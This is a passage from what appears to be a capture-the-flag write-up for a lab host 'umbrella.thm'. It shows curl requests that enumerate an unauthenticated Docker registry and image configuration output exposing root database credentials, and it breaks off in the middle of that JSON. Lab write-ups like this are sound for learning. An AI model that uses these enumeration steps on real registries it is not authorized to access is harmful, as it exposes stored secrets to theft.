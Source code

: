 <br>

<h3>TargetIP:5000/v2/_catalog</h3>

<h3>curl</h3>


```bash
curl -s http://umbrella.thm:5000/v2/
{}
```

```bash
curl -s http://umbrella.thm:5000/v2/_catalog
{"repositories":["umbrella/timetracking"]}
```

```bash
curl -s http://umbrella.thm:5000/v2/umbrella/timetracking/tags/list
{"name":"umbrella/timetracking","tags":["latest"]}
```

![image](https://github.com/user-attachments/assets/a08c92a9-f962-425a-a7c6-97ef6b035439)


```bash
curl -s http://umbrella.thm:5000/v2/umbrella/timetracking/tags/list | jq
{
  "name": "umbrella/timetracking",
  "tags": [
    "latest"
  ]
}
```

<p>
  
-  DB_HOST=db
-  DB_USER=root
-  DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5
-  DB_DATABASE=timetracking
-  LOG_FILE=/logs/tt.log\
-  Cmd\":[\"node\
-  app.js
-  Image : sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1
-  WprrkingDir : /usr/src/app
-  Entrypoint : docker-entrypoint.sh
-  container : 527e55a70a337461e3615c779b0ad035e0860201e4745821c5f3bc4dcd7e6ef9
-  \",\"container_config\":{\"Hostname\":\"527e55a70a33\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=root\",\"DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"/bin/sh\",\"-c\",\"#(nop) \",\"CMD [\\\"node\\\" \\\"app.js\\\"]\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":{}},\"created\":\"2022-</p>

